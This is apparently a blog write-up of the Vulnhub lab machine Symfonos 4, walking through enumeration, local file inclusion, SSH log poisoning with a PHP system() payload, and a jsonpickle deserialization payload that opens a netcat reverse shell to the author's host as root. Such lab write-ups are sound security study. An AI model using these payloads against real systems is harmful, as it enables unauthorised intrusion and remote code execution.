```yaml
---
layout: PostSimple
date: 2020-03-12
title:     "Vulnhub - Symfonos 4"
tags: ['medium','port_forward','log-poisoning','mysql']
---
```


Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/2.png)

Downloaded all log files to my machine.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/3.png)

``hades.log``

```
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.
```

``poseidon.log``

```
Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.
```


``zeus.log``

```
Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.
```

``/atlantis.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference : https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '[?php system($_GET['c']); ?](?php system($_GET['c']); ?)'@192.168.1.136```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/13.png)

MySql Commands 
> http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/14.png)

- Port 3306 - MySQL
- Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too. (https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)

```
socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/16.png)

When I click the Main page it directs to 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

```
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}
```

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/20.png)

I'm Root!!

!![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/21.png)